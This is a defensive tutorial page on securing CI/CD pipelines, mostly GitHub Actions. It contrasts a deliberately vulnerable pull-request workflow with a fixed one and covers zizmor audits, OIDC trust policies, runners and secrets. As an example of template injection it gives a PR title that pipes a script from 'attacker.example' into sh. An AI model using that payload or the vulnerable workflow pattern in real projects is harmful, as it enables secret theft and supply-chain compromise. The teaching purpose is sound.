


# Securing CI/CD Pipelines

## Introduction

Your CI/CD pipeline is one of the most powerful systems you run. It can read all your source code, it holds credentials for package registries and cloud accounts, and it can push code to production. An attacker who controls a pipeline job often does not need to break into production at all: the pipeline will deploy their code for them.

An analogy: a factory has a loading dock where trucks deliver parts and pick up finished goods. If the dock staff accept any delivery without checking it, and the dock has a master key to every room in the factory, then the dock is the weakest point of the building, no matter how good the front-door security is.

Several of the biggest supply chain incidents of recent years were pipeline attacks: the 2021 Codecov uploader compromise exfiltrated CI environment variables, the 2025 `tj-actions/changed-files` compromise dumped secrets into workflow logs, and in 2026 attackers used a misconfiguration in the Trivy project's GitHub Actions setup to obtain a privileged token, then turned the project's own actions into credential stealers. See [Software Supply Chain Security](./5-sec-supply-chain.mdx) for the bigger picture.

Examples on this page use **GitHub Actions** because it is widely used and easy to read, but the same principles apply to GitLab CI, Jenkins, Azure Pipelines, CircleCI and others. For CI/CD basics, see the [CI/CD tutorial](/docs/devops/cicd).

## The Threat Model of a Pipeline



The [OWASP Top 10 CI/CD Security Risks](https://owasp.org/www-project-top-10-ci-cd-security-risks/) project names the main risk areas, including insufficient flow control, inadequate identity and access management, dependency chain abuse, **poisoned pipeline execution (PPE)**, insufficient credential hygiene, insecure system configuration, ungoverned use of third-party services, improper artifact integrity validation and insufficient logging.

**Poisoned pipeline execution** is the central idea: an attacker who can change what the pipeline runs (the workflow file, a script it calls, a test, a build file such as a `Makefile` or `package.json` script) gets code execution with the pipeline's privileges.

## A Vulnerable Workflow

This workflow greets contributors when they open a pull request. It contains several classic mistakes. Do not use it.

```yaml
# .github/workflows/pr-greeting.yml  (Vulnerable)
name: PR greeting
on:
  pull_request_target:
    types: [opened]

jobs:
  greet:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - name: Say hello
        run: echo "Thanks for the PR - ${{ github.event.pull_request.title }}"
      - name: Run tests
        run: npm ci && npm test
        env:
          NPM_TOKEN: ${{ secrets.NPM_TOKEN }}
```

What is wrong:

1. **`pull_request_target` plus checking out the PR's code.** Unlike `pull_request`, the `pull_request_target` trigger runs in the context of the **base** repository, with access to secrets and a write-capable token, even for pull requests from forks. Checking out the fork's code and running `npm test` runs the attacker's code (their test files and `package.json` scripts) with those privileges. This pattern is often called a "pwn request".
2. **Template injection.** `${{ github.event.pull_request.title }}` is pasted into the shell script **before** the shell runs. A PR titled `x"; curl https://attacker.example/s | sh; echo "` becomes part of the script. Anyone who can open a PR controls the title.
3. **Secrets exposed to untrusted code.** `NPM_TOKEN` is available to the step that runs the PR's tests.
4. **Unpinned action.** `actions/checkout@v4` is a mutable tag.
5. **Default token permissions.** Without a `permissions:` block, the `GITHUB_TOKEN` gets the repository's default permissions, which may include write access.
6. **Persisted credentials.** `actions/checkout` stores the token in the local Git config by default, where later steps (or uploaded artifacts) can read it.

### Audit it with zizmor

[zizmor](https://docs.zizmor.sh/) is an open source static analyzer for GitHub Actions workflows. It finds exactly these problems:

```bash
pip install zizmor
zizmor --offline .github/workflows/
```

Example output (zizmor 1.30.1, trimmed):

```text
warning[artipacked]: credential persistence through GitHub Actions artifacts
  --> .github/workflows/pr-greeting.yml:10:9
   |
10 |         - uses: actions/checkout@v4
   |  _________^
11 | |         with:
12 | |           ref: ${{ github.event.pull_request.head.sha }}
   | |________________________________________________________^ does not set persist-credentials: false

warning[excessive-permissions]: overly broad permissions
  --> .github/workflows/pr-greeting.yml:7:3
   |                                                default permissions used due to no permissions: block

error[dangerous-triggers]: use of fundamentally insecure workflow trigger
 --> .github/workflows/pr-greeting.yml:2:1
  |
3 | |   pull_request_target:
  | |___________________^ pull_request_target is almost always used insecurely

error[template-injection]: code injection via template expansion
  --> .github/workflows/pr-greeting.yml:14:44
   |
14 |         run: echo "Thanks for the PR - ${{ github.event.pull_request.title }}"
   |         --- this run block                 ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ may expand into attacker-controllable code

error[unpinned-uses]: unpinned action reference
  --> .github/workflows/pr-greeting.yml:10:15
   |
10 |       - uses: actions/checkout@v4
   |               ^^^^^^^^^^^^^^^^^^^ action is not pinned to a hash (required by blanket policy)

9 findings (4 suppressed, 2 unsafe fixes): 0 informational, 0 low, 2 medium, 3 high
```

`--offline` skips checks that need the GitHub API (such as looking up known-vulnerable action versions). Without it, zizmor can do more, given a token.

## The Fixed Workflow

```yaml
# .github/workflows/pr-greeting.yml  (Fixed)
name: PR greeting
on:
  pull_request:            # runs fork code WITHOUT secrets and with a read-only token
    types: [opened]

permissions: {}            # nothing by default; jobs ask for what they need

jobs:
  greet:
    runs-on: ubuntu-latest
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - name: Say hello
        env:
          PR_TITLE: ${{ github.event.pull_request.title }}   # passed as data, not code
        run: echo "Thanks for the PR - ${PR_TITLE}"
      - name: Run tests
        run: npm ci --ignore-scripts && npm test
```

```bash
zizmor --offline .github/workflows/
```

Output:

```text
No findings to report. Good job! (2 suppressed)
```

The changes, one by one:

- **`pull_request` instead of `pull_request_target`.** Fork PRs run without secrets and with a read-only token, so running their code is far less dangerous. If you truly need privileges for fork PRs (for example to post a comment), split the work: an unprivileged `pull_request` workflow does the build and uploads results as an artifact, and a separate privileged workflow (triggered by `workflow_run`) only reads that artifact **as data** and never executes it.
- **Untrusted input through `env:`.** The expression is evaluated into an environment variable, and the shell reads it as a value. Quoting `"${PR_TITLE}"` keeps it from being split or interpreted. This applies to every attacker-controllable field: titles, bodies, branch names, commit messages, issue comments, labels.
- **`permissions: {}` at the top**, then the minimum per job.
- **Actions pinned to a full commit SHA** with a comment showing the version, so Dependabot or Renovate can propose updates.
- **`persist-credentials: false`.**
- **No secrets in the test job.**

## Least-Privilege Tokens and Secrets

### The GITHUB_TOKEN

Every job gets an automatic `GITHUB_TOKEN`. Set the organization or repository default to **read-only**, and grant extra scopes per job:

| Scope | Grant it when |
| --- | --- |
| `contents: read` | The job checks out code (most jobs) |
| `contents: write` | The job pushes commits or creates releases |
| `pull-requests: write` | The job comments on or labels PRs |
| `id-token: write` | The job uses OIDC to get cloud credentials or to sign with Sigstore |
| `packages: write` | The job pushes images to GitHub Packages |
| `security-events: write` | The job uploads SARIF code scanning results |

### Replace long-lived cloud keys with OIDC

Storing `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` as repository secrets means a long-lived key that any compromised step can steal. With **OIDC federation**, the job requests a signed identity token from GitHub, and the cloud provider exchanges it for short-lived credentials, only if the token's claims match a trust policy.



The trust policy on the AWS role decides **which** workflows may assume it. Pin it to the repository **and** the protected environment:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::111122223333:oidc-provider/token.actions.githubusercontent.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
          "token.actions.githubusercontent.com:sub": "repo:acme/shop-api:environment:production"
        }
      }
    }
  ]
}
```

A trust policy that only checks the audience, or uses a wildcard like `repo:acme/*`, lets **any** workflow in scope (including one on a feature branch, or in another repository) assume the role. The `sub` condition is what ties the role to your deployment job.

The deploy workflow:

```yaml
# .github/workflows/deploy.yml
name: Deploy
on:
  push:
    branches: [main]

permissions: {}

concurrency:
  group: deploy-production
  cancel-in-progress: false

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: production        # required reviewers and branch rules live here
    permissions:
      contents: read
      id-token: write              # lets this job request an OIDC token
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - name: Get short-lived AWS credentials via OIDC
        uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd # v6.3.0
        with:
          role-to-assume: arn:aws:iam::111122223333:role/shop-api-deploy
          aws-region: eu-west-1
      - name: Deploy
        run: ./scripts/deploy.sh
```

The `production` **environment** can require approval from specific reviewers and restrict which branches may deploy to it. Because the trust policy's `sub` claim includes `environment:production`, the role can only be assumed by jobs that passed those environment rules. Azure, Google Cloud, HashiCorp Vault, PyPI and npm support the same OIDC pattern.

### Secret hygiene checklist

- Scope secrets to **environments** (production secrets only in the production environment), not to the whole repository.
- Never pass secrets to steps that run untrusted code (tests of fork PRs, third-party scripts).
- Never echo secrets. Platforms mask known secret values in logs, but transformed values (base64-encoded, split, URL-encoded) are not masked.
- Rotate secrets on a schedule and **all** of them after any pipeline incident.
- Prefer OIDC and trusted publishing over stored tokens wherever supported.

## Third-Party Actions, Plugins and Images

Every `uses:` line runs someone else's code inside your job.

- **Pin by full commit SHA**, and let Dependabot or Renovate propose updates (the version comment helps them). GitHub organizations can enforce SHA pinning with the allowed-actions policy, which also supports blocking specific actions or versions.
- **Allowlist** which actions may be used, starting with GitHub-owned and verified creators.
- **Review the action** before adopting it: is it a composite action that downloads and runs a remote script? Is it maintained? What does its OpenSSF Scorecard look like?
- **Treat security tools the same way.** Scanners run with access to your code and often your secrets. The 2026 Trivy incident is the cautionary example.
- **Pin container images by digest** (`image@sha256:...`) in `container:` and `services:` blocks and in build steps.

For Jenkins, the same principles apply to plugins: keep them updated, minimize their number, and restrict who can install them.

## Runners

| Runner type | Risk | Guidance |
| --- | --- | --- |
| Platform-hosted (fresh VM per job) | Lowest: nothing persists between jobs | Default choice |
| Self-hosted, persistent | Malware or modified tools from one job affect the next; runner may sit inside your network | Avoid for anything that runs untrusted code |
| Self-hosted, ephemeral (one job per runner, then destroyed) | Network access still matters | Use when you need private network access or special hardware |

**Never use self-hosted runners for public repositories** where outsiders can open pull requests, unless you fully understand and restrict which workflows can run on them. Place self-hosted runners in an isolated network segment with only the egress they need.

## Protect the Pipeline Definition

The workflow files themselves are code that controls production:

- Require **pull request review** for changes to `.github/workflows/` (use `CODEOWNERS` to require the platform or security team).
- Use **branch protection or rulesets** on the default branch and on release tags: no force pushes, required reviews, required status checks.
- Make tags **immutable** for your own released actions and packages.
- **Log and monitor** pipeline activity: who changed workflows, who approved deployments, unusual new secrets or runners. Ship audit logs to your SIEM. See [Security Logging and SIEM](../11-sec-defensive-operations/1-sec-logging-and-siem.mdx).

## Real-World Scenario

You maintain a popular open source Python library. You want to: run tests on every pull request (including from forks), automatically label PRs based on changed files, and publish to PyPI when a maintainer creates a release. Today a single workflow on `pull_request_target` does all three, with a PyPI API token stored as a repository secret.

**The walkthrough:**

1. **Tests:** move to a `pull_request` workflow with `permissions: contents: read` and no secrets. Fork code runs safely in a sandbox with no credentials.
2. **Labeling:** use the official labeler pattern on `pull_request_target`, but **never check out or run PR code** in that workflow. It only reads metadata (changed file paths) through the API. Add a zizmor ignore comment with a justification so the exception is visible.
3. **Publishing:** create a `release` workflow triggered by published releases, running in a `pypi` environment that requires maintainer approval, using PyPI **Trusted Publishing** (OIDC) with `id-token: write`. Delete the stored PyPI token.
4. **Hardening:** pin every action to a SHA, enable SHA-pinning enforcement, set default token permissions to read-only, add `CODEOWNERS` for `.github/workflows/`, and run zizmor in CI.

**Why this approach:** untrusted code never meets secrets; privileged automation never runs untrusted code; publishing has no long-lived credential to steal and requires a human approval.

| Approach | Pros | Cons | Best for |
| --- | --- | --- | --- |
| `pull_request` for fork PRs | No secrets, read-only token | Cannot write to the repo (comments, labels) | Builds and tests of external contributions |
| `pull_request_target` without checking out PR code | Can write labels and comments | Easy to misuse; one checkout of PR code makes it dangerous | Metadata-only automation |
| `pull_request` plus `workflow_run` split | Privileged step never runs untrusted code | More complex; artifacts must be treated as untrusted data | Posting results of fork builds |
| Stored long-lived secrets | Simple; works everywhere | Stealable, often over-scoped, rarely rotated | Legacy systems without OIDC support |
| OIDC federation and trusted publishing | No stored credential; scoped by claims | Requires correct trust policy conditions | Cloud deploys, PyPI and npm publishing |
| Environments with required reviewers | Human gate on sensitive jobs | Slower deploys | Production and publishing |

## Common Mistakes

- **Using `${{ }}` expressions with untrusted input inside `run:` scripts.** Pass them through `env:`.
- **Checking out PR code in `pull_request_target` or `workflow_run` workflows.** This is the most common route to stolen secrets in open source.
- **Leaving default token permissions as write.** Set `permissions: {}` and add scopes per job.
- **Pinning actions to tags or branches.** Tags were re-pointed in several real attacks.
- **Over-broad OIDC trust policies.** Always restrict the `sub` claim to a repository and branch or environment.
- **Shared, persistent self-hosted runners for untrusted code.**
- **Uploading the whole workspace as an artifact.** It may include `.git/config` with a persisted token, `.env` files or build caches with secrets.
- **Not rotating everything after an incident.** Partial rotation allowed attackers to come back in the 2026 Trivy incident.

## Summary

- A pipeline is a high-value target: it holds credentials and can deploy to production.
- Poisoned pipeline execution, workflow template injection, compromised actions and over-privileged tokens are the main risks.
- Run untrusted code only in unprivileged workflows (`pull_request`); never mix fork code with secrets.
- Pass untrusted input through environment variables, set `permissions: {}`, pin actions by SHA and disable persisted credentials.
- Replace stored cloud keys with OIDC federation, restricted by the `sub` claim and protected environments.
- Use ephemeral runners, protect workflow files with review and rulesets, and audit workflows with tools like zizmor.

## Further Learning

**Exercises**

1. Run zizmor on the workflows of one of your repositories and fix the highest-severity findings.
2. Write a workflow that comments test results on fork PRs using the `pull_request` plus `workflow_run` split, and make sure the privileged half never executes downloaded content.
3. Configure a test AWS or Azure role with OIDC federation for a sandbox repository, and confirm that a workflow on a feature branch cannot assume it.
4. Set your organization's default `GITHUB_TOKEN` permissions to read-only and list which workflows need explicit `permissions:` blocks as a result.

**Related pages**

- [Software Supply Chain Security](./5-sec-supply-chain.mdx)
- [Secret Scanning](./7-sec-secret-scanning.mdx)
- [SBOMs, Signing and SLSA](./6-sec-sbom-and-signing.mdx)
- [Project: DevSecOps Pipeline](../14-sec-projects/3-sec-project-devsecops-pipeline.mdx)
